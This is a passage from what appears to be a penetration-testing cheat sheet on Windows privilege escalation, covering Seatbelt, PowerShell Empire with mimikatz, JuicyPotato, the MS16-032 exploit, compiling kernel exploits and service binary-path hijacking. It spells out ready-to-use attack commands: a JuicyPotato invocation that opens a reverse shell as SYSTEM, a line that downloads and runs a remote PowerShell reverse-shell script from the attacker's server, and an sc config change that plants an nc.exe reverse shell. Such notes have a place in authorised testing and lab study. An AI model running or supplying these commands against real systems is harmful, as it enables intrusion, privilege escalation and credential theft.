     ### seatbelt

    * `seatbelt.exe NonstandardProcesses` - search for non standard processes (non Microsoft)

3. Look around the C Drive and filesystem

4. Check for internal ports with `netstat`

## Other

### powershell-empire
* Has capabilities for finding kernel exploits (sherlock and MS specific modules)
* Has mimikatz and credential dump from memory capabilites
* Has PowerUp module for running some good priv esc checks
* Basic usage [guide](https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/)

### JuicyPotato.exe
1. Requirements
    * SeImpersonatePrivilege set to "Enabled" for service account/user
    * nc.exe - preferably downloaded to the target machine
    * JuicyPotato.exe - preferably downloaded to the target machine
2. Find a CLSID for the OS version - [handy list](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
3. Execute this to trigger a reverse shell as SYSTEM: `JuicyPotato.exe -t * -p *path to nc.exe* -a "-e cmd.exe 10.10.10.10 4444" -l 9001 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}`
4. If it fails, try a different CLSID (`-c` option) and/or local port (`-l` option).  Also, you may have to put the CLSID in single quotes

### MS16-032
1. `wmic CPU Get NumberOfCores` - check for the number of CPU cores, as 2 or more are required for the exploit
2. If you are able to login with an RDP session, you can use the PowerShell Empire module.  It will pop a new shell, so this isn't feasible if you are working in a reverse shell
3. Copy `/usr/share/powershell-empire/data/module_source/privesc/Invoke-MS16032.ps1` to the current working directory as not to edit the original file
4. Add a line at the end of the file to call the function.  This example will call a reverse shell PowerShell script being served up by the attackers python web server `Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1')"`

### Kernel Exploits - Compiling Executables for Windows, MS11-046
* `x86_64-w64-mingw32-gcc privesc.c -o privesc64.exe` - this is the regular way to compile 64-bit
* `i686-w64-mingw32-gcc privesc.c -o privesc32.exe` - this is the regular way to compile 32-bit
* `i686-w64-mingw32-gcc privesc.c -o privesc32.exe -lws2_32` - this method was specific to the example EDB #40564 (MS11-046)

### Changing the Binary Path of a Service
1. `sc config *service name* binpath= "C:\nc.exe -nv 10.10.10.10 4444 -e C:\WINDOWS\System32\cmd.exe` - an example of how you can edit the **BINARY PATH NAME**, in this case it will use nc.exe to do a reverse shell
2. `sc config *service name* obj= ".\LocalSystem" password= ""` - example of how to edit the **SERVICE_START_NAME**
3. `net start *service name*` - start the service to trigger the binary.  Remember to set up a listener if trying to catch a reverse shell
